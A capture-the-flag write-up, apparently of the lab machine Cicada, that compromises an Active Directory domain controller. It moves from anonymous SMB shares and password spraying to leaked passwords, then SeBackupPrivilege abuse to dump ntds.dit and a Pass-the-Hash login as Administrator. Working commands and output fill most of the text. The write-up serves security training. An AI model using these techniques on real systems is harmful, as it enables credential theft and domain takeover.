

Exploitation Summary
The attack began with SMB enumeration against a Windows Domain Controller. Anonymous access to
the HR share revealed a welcome document containing a default password left behind
by the IT team. With no valid username yet, RID-cycling via netexec was used to
enumerate domain user accounts, after which password spraying confirmed that
michael.wrightson had never changed that default credential.
Although michael.wrightson lacked WinRM access, his authenticated SMB session was
enough to enumerate user descriptions — where david.orelious had carelessly stored
his own password in plaintext. His account granted access to the DEV share, which
contained a PowerShell backup script hardcoding the credentials of emily.oscars.
emily.oscars had WinRM access and, crucially, held the
SeBackupPrivilege right. This privilege allows reading any file on the system
regardless of ACLs, making it possible to extract the Active Directory database
(ntds.dit) via a Volume Shadow Copy and dump all domain hashes with
impacket-secretsdump. The Administrator NT hash was then used for a Pass-the-Hash
login, completing the machine.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services on the target:

The results confirm this is a Windows Active Directory Domain Controller. Key ports include
Kerberos (88), LDAP (389, 3268, 3269), SMB
(445), and WinRM (5985). I add cicada.htb and
dc.cicada.htb to /etc/hosts and begin enumerating SMB.
SMB Enumeration — Anonymous Access & Credential Leakage
First, I check available shares using netexec and smbclient with no
credentials (null session):
netexec smb cicada.htb --sharesSMB 10.129.231.149 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB 10.129.231.149 445 CICADA-DC [-] Error enumerating shares: STATUS_USER_SESSION_DELETEDNull authentication is confirmed. I use smbclient to list shares directly:
smbclient -N -L //cicada.htbSharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
DEV Disk
HR Disk
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server shareBeyond the standard shares, two non-default shares stand out: DEV and HR.
I try connecting to both anonymously.
Access to DEV is denied, but HR is readable:
smbclient -N //cicada.htb/HRsmb: \> dir
. D 0
.. D 0
Notice from HR.txt A 1266smb: \> get "Notice from HR.txt"Note the quotes — necessary to handle the spaces in the filename. The file contents reveal a default password left for new hires:
Dear new hire!
Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our
security protocols, it's essential that you change your default password to something
unique and secure.
Your default password is: Cicada$M6Corpb*@Lp#nZp!8
To change your password:
1. Log in to your Cicada Corp account using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
[...]
Best regards,
Cicada CorpI now have a valid password — Cicada$M6Corpb*@Lp#nZp!8 — but still need valid
usernames to spray it against.
User Enumeration — RID Cycling
I first attempt to find valid usernames via kerbrute against the Kerberos service, but
the wordlist only surfaces the well-known guest and administrator
accounts, neither of which is useful here.
Instead, I use RID cycling — a technique that exploits how Windows assigns sequential numeric identifiers (RIDs) to every security principal (users, groups, computers) in the domain. By iterating over these IDs via an authenticated or guest SMB session, it's possible to resolve them back to account names without needing any special privileges:
netexec smb cicada.htb -u 'guest' -p '' --rid-bruteSMB 10.129.231.149 445 CICADA-DC [+] cicada.htb\guest:
SMB 10.129.231.149 445 CICADA-DC 500: CICADA\Administrator (SidTypeUser)
SMB 10.129.231.149 445 CICADA-DC 501: CICADA\Guest (SidTypeUser)
SMB 10.129.231.149 445 CICADA-DC 502: CICADA\krbtgt (SidTypeUser)
SMB 10.129.231.149 445 CICADA-DC 512: CICADA\Domain Admins (SidTypeGroup)
SMB 10.129.231.149 445 CICADA-DC 513: CICADA\Domain Users (SidTypeGroup)
[...]
SMB 10.129.231.149 445 CICADA-DC 1104: CICADA\john.smoulder (SidTypeUser)
SMB 10.129.231.149 445 CICADA-DC 1105: CICADA\sarah.dantelia (SidTypeUser)
SMB 10.129.231.149 445 CICADA-DC 1106: CICADA\michael.wrightson (SidTypeUser)
SMB 10.129.231.149 445 CICADA-DC 1108: CICADA\david.orelious (SidTypeUser)
SMB 10.129.231.149 445 CICADA-DC 1109: CICADA\Dev Support (SidTypeGroup)
SMB 10.129.231.149 445 CICADA-DC 1601: CICADA\emily.oscars (SidTypeUser)I now have five domain users: john.smoulder, sarah.dantelia,
michael.wrightson, david.orelious, and emily.oscars. I save
these to users.txt and proceed to password spraying.
Password Spraying — First Valid Credentials
netexec smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-successSMB 10.129.231.149 445 CICADA-DC [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB 10.129.231.149 445 CICADA-DC [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB 10.129.231.149 445 CICADA-DC [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
SMB 10.129.231.149 445 CICADA-DC [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB 10.129.231.149 445 CICADA-DC [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILUREmichael.wrightson never changed the default password. Credentials confirmed:
michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8.
I check whether this account has WinRM access — it doesn't. The user is likely not a member of the
Remote Management Users group. Accessing the DEV share with these
credentials also fails. However, the account is authenticated enough to query domain user
information via SMB.
Credentials in User Description — david.orelious
Enumerating domain users with netexec --users reveals something interesting in the
Description field:
netexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --usersSMB 10.129.231.149 445 CICADA-DC [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
SMB 10.129.231.149 445 CICADA-DC Administrator 2024-08-26 20:08:03 1 Built-in account for administering the computer/domain
SMB 10.129.231.149 445 CICADA-DC Guest 2024-08-28 17:26:56 0 Built-in account for guest access to the computer/domain
SMB 10.129.231.149 445 CICADA-DC krbtgt 2024-03-14 11:14:10 0 Key Distribution Center Service Account
SMB 10.129.231.149 445 CICADA-DC john.smoulder 2024-03-14 12:17:29 1
SMB 10.129.231.149 445 CICADA-DC sarah.dantelia 2024-03-14 12:17:29 1
SMB 10.129.231.149 445 CICADA-DC michael.wrightson 2024-03-14 12:17:29 0
SMB 10.129.231.149 445 CICADA-DC david.orelious 2024-03-14 12:17:29 1 Just in case I forget my password is aRt$Lp#7t*VQ!3
SMB 10.129.231.149 445 CICADA-DC emily.oscars 2024-08-22 21:20:17 1david.orelious stored his password in his own account description field. New
credentials: david.orelious:aRt$Lp#7t*VQ!3.
This account also lacks WinRM access, but it does have read permission on the DEV
share:
smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' //cicada.htb/DEVsmb: \> dir
. D 0
.. D 0
Backup_script.ps1 A 601smb: \> get Backup_script.ps1Credentials in Backup Script — emily.oscars
The downloaded PowerShell script contains hardcoded credentials:
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"Third set of credentials: emily.oscars:Q!3@Lp#M6b*7t*Vt.
Initial Access — WinRM as emily.oscars
I verify that emily.oscars has WinRM access before connecting:
netexec winrm cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'WINRM 10.129.231.149 5985 CICADA-DC [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>Shell access confirmed. I can now retrieve the user flag from the Desktop.
Privilege Escalation — SeBackupPrivilege
Checking the current token privileges reveals something valuable:
whoami /privPRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== =======
SeBackupPrivilege Back up files and directories Enabled
SeRestorePrivilege Restore files and directories Enabled
SeShutdownPrivilege Shut down the system Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set EnabledSeBackupPrivilege allows reading any file on the system, bypassing all
filesystem ACLs. This makes it possible to extract the Active Directory database file
ntds.dit, which stores all domain credential hashes.
The catch is that ntds.dit is locked while the system is running and cannot be
accessed directly. The solution is to create a Volume Shadow Copy of the C: drive
and read the file from that snapshot instead.
Creating a Volume Shadow Copy with diskshadow
I create a working directory and a script file for diskshadow:
mkdir C:\temp
cd C:\tempContents of C:\temp\shadow.txt:
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:These instructions tell diskshadow to create a persistent shadow copy of
C: and expose it as drive z:\. I run it:
diskshadow /s C:\temp\shadow.txt-> set context persistent nowriters
-> add volume c: alias pwn
-> create
Alias pwn for shadow ID {36cde1b4-2301-490a-9995-b2ee24875967} set as environment variable.
[...]
-> expose %pwn% z:
-> %pwn% = {36cde1b4-2301-490a-9995-b2ee24875967}
The shadow copy was successfully exposed as z:\.I verify the snapshot is accessible:
ls z:\Directory: z:\
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 8/22/2024 11:45 AM PerfLogs
d-r--- 8/29/2024 12:32 PM Program Files
d----- 5/8/2021 2:40 AM Program Files (x86)
d----- 3/14/2024 5:21 AM Shares
d----- 2/22/2026 8:42 PM temp
d-r--- 8/26/2024 1:11 PM Users
d----- 9/23/2024 9:35 AM WindowsExtracting ntds.dit with robocopy
I use robocopy with the /b (backup mode) flag to copy
ntds.dit from the shadow copy, leveraging SeBackupPrivilege to bypass
the file's ACL:
robocopy /b z:\Windows\NTDS\ C:\temp\ ntds.dit-------------------------------------------------------------------------------
ROBOCOPY :: Robust File Copy for Windows
-------------------------------------------------------------------------------
Source : z:\Windows\NTDS\
Dest : C:\temp\
Files : ntds.dit
[...]
1 z:\Windows\NTDS\
New File 16.0 m ntds.ditExtracting the SYSTEM hive
The ntds.dit file alone is not enough — Windows encrypts the credential data using a
boot key (SysKey) stored in the SYSTEM registry hive. I need both files to decrypt the hashes:
reg save HKLM\SYSTEM C:\temp\system.hivI download both files to my local machine:
download ntds.dit
download system.hivDumping Hashes with impacket-secretsdump
With both files on my machine, I run impacket-secretsdump in offline mode to decrypt
and extract all domain credential hashes:
impacket-secretsdump -ntds ntds.dit -system system.hiv LOCALImpacket v0.14.0 - Copyright Fortra, LLC and its affiliated companies
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: f954f575c626d6afe06c2b80cc2185e6
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CICADA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3779000802a4bb402736bee52963f8ef:::
cicada.htb\john.smoulder:1104:aad3b435b51404eeaad3b435b51404ee:0d33a055d07e231ce088a91975f28dc4:::
cicada.htb\sarah.dantelia:1105:aad3b435b51404eeaad3b435b51404ee:d1c88b5c2ecc0e2679000c5c73baea20:::
cicada.htb\michael.wrightson:1106:aad3b435b51404eeaad3b435b51404ee:b222964c9f247e6b225ce9e7c4276776:::
cicada.htb\david.orelious:1108:aad3b435b51404eeaad3b435b51404ee:ef0bcbf3577b729dcfa6fbe1731d5a43:::
cicada.htb\emily.oscars:1601:aad3b435b51404eeaad3b435b51404ee:559048ab2d168a4edf8e033d43165ee5:::
[*] Kerberos keys from ntds.dit
Administrator:aes256-cts-hmac-sha1-96:e47fd7646fa8cf1836a79166f5775405834e2c060322d229bc93f26fb67d2be5
[...]The Administrator's NT hash is now available. No cracking required — I can authenticate directly using Pass-the-Hash.
Root Access — Pass-the-Hash as Administrator
evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administratorFull domain administrator access achieved. The root flag is available on the Administrator's Desktop.